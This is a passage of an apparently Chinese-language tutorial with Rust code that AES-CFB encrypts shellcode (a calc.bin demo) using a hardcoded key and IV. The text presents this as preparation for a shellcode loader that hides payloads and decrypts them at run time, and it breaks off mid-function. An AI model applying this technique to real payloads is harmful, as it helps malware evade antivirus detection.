Rust要实现AES加密与加密也需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

    
    
    [dependencies]  
    aes="0.7.5"  
    hex="0.4.3"  
    block-modes="0.8.1"  
    hex-literal="0.3.3"

下面是实现AES-CFB加解密的代码，在加密的函数中最终返回的是Hex编码后的字符串，而解密函数最终返回的是Vec数组，同样是为了方便在shellcode
loader中读取加密后的shellcode以及加载解密后的shellcode。

    
    
    use aes::Aes128;  
    use block_modes::block_padding::Pkcs7;  
    use block_modes::{BlockMode, Cfb};  
    use hex::encode;  
    use hex_literal::hex;  
      
    type Aes128ECfb = Cfb<Aes128, Pkcs7>;  
      
    fn main() {  
        let shellcode = include_bytes!("..\\calc.bin").as_slice();  
        let key = "gWW8QklFyVIQfpDN";  
        let iv = hex!("57504c385a78736f336b4946426a626f");  
      
        println!("==128-bit AES CFB Mode==");  
        println!("Key: {}", key);  
        println!("iv: {}", encode(iv));  
      
        let encrypted = enc(shellcode, key, iv);  
        println!("\nEncrypted: {}", encrypted);  
      
        let decrypted = dec(encrypted.as_str(), key, iv);  
        println!("\nDecrypted: {:?}", decrypted);  
    }  
      
    fn enc(shellcode: &[u8], key: &str, iv: [u8; 16]) -> String {  
        let key = key.as_bytes().to_vec();  
      
        let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();  
      
        let pos = shellcode.len();  
        let mut buffer = [0u8; 2560];  
        buffer[..pos].copy_from_slice(shellcode);  
      
        let ciphertext = cipher.encrypt(&mut buffer, pos).unwrap();  
      
        hex::encode(ciphertext)  
    }  
      
    fn dec(encrypted: &str, key: &str, iv: [u8; 16]) -> Vec<u8> {  
        let binding = hex::decode(encrypted).expect("Decoding failed");  
        let ciphertext = binding.as_slice();  
      
        let key = key.as_bytes().to_vec();  
      
        let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();  
      